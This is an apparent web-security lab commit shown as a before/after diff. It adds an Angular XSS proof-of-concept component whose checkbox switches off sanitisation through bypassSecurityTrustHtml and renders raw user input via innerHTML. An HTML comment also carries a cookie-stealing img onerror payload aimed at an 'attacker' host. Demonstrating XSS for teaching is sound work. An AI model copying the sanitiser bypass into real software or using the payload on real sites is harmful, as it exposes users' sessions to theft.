

Before and after one commit to MatejGalic/mg51915-web2-lab2, an Angular app: page / in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
XSS - PoC

```diff
--- a/src/app/app.component.html
+++ b/src/app/app.component.html
@@ -1 +1 @@
-<p>Deployed succesfully!</p>
+<app-xss></app-xss>
--- /dev/null
+++ b/src/app/components/xss/xss.component.html
@@ -0,0 +1,14 @@
+<div class="m-1 p-1">
+  <div>
+    <input id="vulnerable" [(ngModel)]="isVulnerable" type="checkbox" />
+    <label for="vulnerable">Toggle vulnerability</label>
+  </div>
+
+  <div class="mt">
+    <textarea [(ngModel)]="textarea"></textarea>
+    <button (click)="injectHtml()" class="block">Add comment</button>
+    <div [innerHTML]="htmltext" #textareaInjection></div>
+  </div>
+</div>
+
+<!-- <img src onerror="window.location='http://attacker/?cookie='+document.cookie"> -->
--- /dev/null
+++ b/src/app/components/xss/xss.component.ts
@@ -0,0 +1,24 @@
+import { Component, ElementRef, OnInit, ViewChild } from '@angular/core';
+import { DomSanitizer } from '@angular/platform-browser';
+
+@Component({
+  selector: 'app-xss',
+  templateUrl: './xss.component.html',
+  styleUrls: ['./xss.component.scss'],
+})
+export class XssComponent implements OnInit {
+  @ViewChild('textareaInjection') divElement: ElementRef;
+  isVulnerable: boolean = false;
+
+  textarea: string = '';
+  htmltext: any;
+  constructor(private sanitizer: DomSanitizer) {}
+
+  ngOnInit(): void {}
+  injectHtml() {
+    let value = this.isVulnerable
+      ? this.sanitizer.bypassSecurityTrustHtml(this.textarea)
+      : this.textarea;
+    this.htmltext = value;
+  }
+}
--- a/src/styles.scss
+++ b/src/styles.scss
@@ -1 +1,46 @@
 /* You can add global styles to this file, and also import other style files */
+html,
+body {
+  height: 100%;
+  width: 100%;
+  margin: 0;
+  padding: 0;
+}
+
+* {
+  box-sizing: border-box;
+}
+
+.p {
+  &-1 {
+    padding: 10px;
+  }
+  &-2 {
+    padding: 20px;
+  }
+}
+
+.m {
+  &-1 {
+    margin: 10px;
+  }
+  &-2 {
+    margin: 20px;
+  }
+  &t {
+    margin-top: 10px;
+  }
+}
+
+.block {
+  display: block;
+}
+
+.flex {
+  display: flex;
+}
+
+textarea {
+  width: 500px;
+  height: 150px;
+}
--- a/tsconfig.json
+++ b/tsconfig.json
@@ -6,6 +6,7 @@
     "outDir": "./dist/out-tsc",
     "forceConsistentCasingInFileNames": true,
     "strict": true,
+    "strictPropertyInitialization": false,
     "noImplicitOverride": true,
     "noPropertyAccessFromIndexSignature": true,
     "noImplicitReturns": true,
```
Also changed, not shown: src/app/app.module.ts (+6 -2 lines), src/app/components/xss/xss.component.scss (added).
